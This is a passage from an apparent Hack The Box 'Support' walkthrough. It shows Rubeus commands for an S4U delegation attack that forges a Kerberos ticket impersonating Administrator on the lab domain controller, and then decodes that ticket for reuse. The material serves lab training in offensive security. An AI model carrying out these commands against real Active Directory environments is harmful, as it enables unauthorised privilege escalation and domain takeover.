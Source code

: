 ## Perform the attack

Perform the S4U attack. This allows us to obtain a Kerberos ticket on behalf of the Administrator. Use Rubeus for this. 

First we need the hash of the password that was used to create the computer object:

`.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb`

<img src='/images/HTB_Support/afbeelding 26.png'>

We need the rv4_hmac value, copy this: `58A478135A93AC3BF058A5EA0E8FDB71`

Now we can generate the Kerberos ticket for the Administrator with this long command:

`.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71
/impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt`

Rubeus generated the tickets. 

<img src='/images/HTB_Support/afbeelding 27.png'>

Grab the last Base64 encoded ticket and use it in our local machine to get a shell on the DC as Administrator. So copy this value and paste it into a file called: `ticket.kirbi.b64` 

Before pasting the value in the file remove all the white spaces: [https://www.browserling.com/tools/remove-all-whitespace](https://www.browserling.com/tools/remove-all-whitespace) 

Next, create another file `ticket.kirbi` with the Base64 decoded value:

`base64 -d ticket.kirbi.b64 > ticket.kirbi` 
